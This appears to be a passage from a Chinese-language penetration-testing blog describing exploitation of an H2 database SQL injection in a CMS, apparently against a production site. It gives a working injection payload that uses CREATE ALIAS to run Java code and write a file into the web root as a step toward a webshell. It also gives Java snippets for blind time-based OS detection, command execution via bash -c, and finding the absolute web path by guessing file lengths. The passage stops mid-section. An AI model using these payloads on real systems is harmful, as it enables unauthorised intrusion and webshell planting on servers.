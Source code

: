 ![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230311202725.png)

  

接下来为了演示方便，我只贴出具体的漏洞利用的java代码，大家实战使用的时候，直接在java代码前后拼接上H2数据库查询语句即可。

  

  * ###  **一键写webshell方法**

由于不知道绝对路径，写shell成了一个麻烦事，因为通过注入写shell，必须提前知道网站的绝对路径，然而依靠延时漏洞去一个字符一个字符地猜解绝对路径是非常非常耗费时间和精力的。Magic_Zero给我发了一个代码，我在虚拟机下测试成功，但是在这个生产环境中执行失败，具体命令如下所示：

 **uploadID=1';CREATE+ALIAS+fun669+AS+$$+void+f(String+cmd)+throws
java.io.IOException+{(new+java.io.FileOutputStream(System.getProperty("user.dir")%2B"/webapps/ROOT/images/hello.txt")).write("helloworld".getBytes())%3B}$$;CALL+fun669('1');or
'**

  

  * ###  **为获取web路径做准备**

接下来只能通过延时判断方法一个字符一个字符地把web绝对路径猜解出来了。在这里我们首先判断一下操作系统，具体java代码如下，如果网站返回出现延迟，说明操作系统是Linux的。

 **{
if(!System.getProperty("os.name").contains("win")){java.lang.Thread.sleep(10000);}**

  

  * ###  **Linux执行命令语句改造**

  
接下来还需要构造好执行系统命令的java代码，一开始用如下代码去执行命令，发现很多命令执行不成功，百思不得其解： **{
java.lang.Runtime.getRuntime().exec(cmd)%3B+}**  

后来发现，需要改造一下java代码，变成如下形式即可：

 **{  java.lang.Runtime.getRuntime().exec(new String[]{"bash", "-c", "cmd"}**

  

  * ###  **延时盲注猜解绝对路径**

  

通过翻看源代码，发现该CMS存在一个图片login_btn_bg.png，于是通过执行find查找命令，将包含login_btn_bg.png的路径输出到/tmp/testpath.txt中。

 **java.lang.Runtime.getRuntime().exec(new String[]{"bash", "-c", "find /
-name login_btn_bg.png > /tmp/login_btn.txt"});**

上述java代码也保证了最终在testpath.txt中只有一行数据，如果是多行的话，那获取网站绝对路径需要猜解太多字符，工作量太大了。

接下来要想办法读/tmp/testpath.txt文件中网站的绝对路径，首先判断一下 **/tmp/testpath.txt**
中文本的长度，用折半法把绝对路径猜出来。以下两个语句说明，/tmp/testpath.txt文本中记录的绝对路径的长度，大约在50左右：

 **if(new java.io.File("/tmp/login_btn.txt").length() > 49)
{java.lang.Thread.sleep(10000);} ** **延迟**

 **if(new java.io.File("/tmp/login_btn.txt").length() > 51)
{java.lang.Thread.sleep(10000);} ** **不延迟**

 **  
**

  *  **动脑筋想办法加速延时注入**
